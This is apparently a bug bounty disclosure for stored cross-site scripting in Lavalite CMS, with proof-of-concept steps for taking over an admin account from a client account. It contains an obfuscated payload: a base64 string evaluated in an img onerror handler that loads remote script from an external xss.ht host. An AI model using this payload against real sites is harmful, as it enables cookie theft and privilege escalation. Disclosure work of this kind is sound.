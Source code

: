 # Description
Admin cookies and other details leading to an account take over to a higher level privilege from a client account of lavalite CMS and other multiple XSS in different pages due to acceptance of unsanitised data .check the permalinks to know more on the pages causing XSS.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC For Account TakeOver
* login to client account and admin account from entirely different browsers or through a private mode.
* In the client account click on settings and update the address column with the blind payload and save the updates made.
* from the admin account move to the end point http://localhost/admin/user/client .
* Booyah!!! XSS triggered.
* other POC's are available at the corresponding PR pages
# PermaLinks
![POC](https://drive.google.com/drive/folders/1QfRhBX54orE65lq6rM33Fchft_gsaMHI?usp=sharing)
* Github PR [ISSUE @ team page](https://github.com/418sec/huntr/pull/691)
* Github PR [issue @ contact creation and management page](https://github.com/418sec/huntr/pull/692)
* Github PR [issue @ roles page](https://github.com/418sec/huntr/pull/694)
* Github PR [issue @ permissions management page](https://github.com/418sec/huntr/pull/695)
* Github PR [issue @ manage blocks page](https://github.com/418sec/huntr/pull/696)
* Github PR [issue @ menu page](https://github.com/418sec/huntr/pull/697)
* Github PR [issue @ index management page](https://github.com/418sec/huntr/pull/705)
* Github PR [issue @ registration page](https://github.com/418sec/huntr/pull/693)
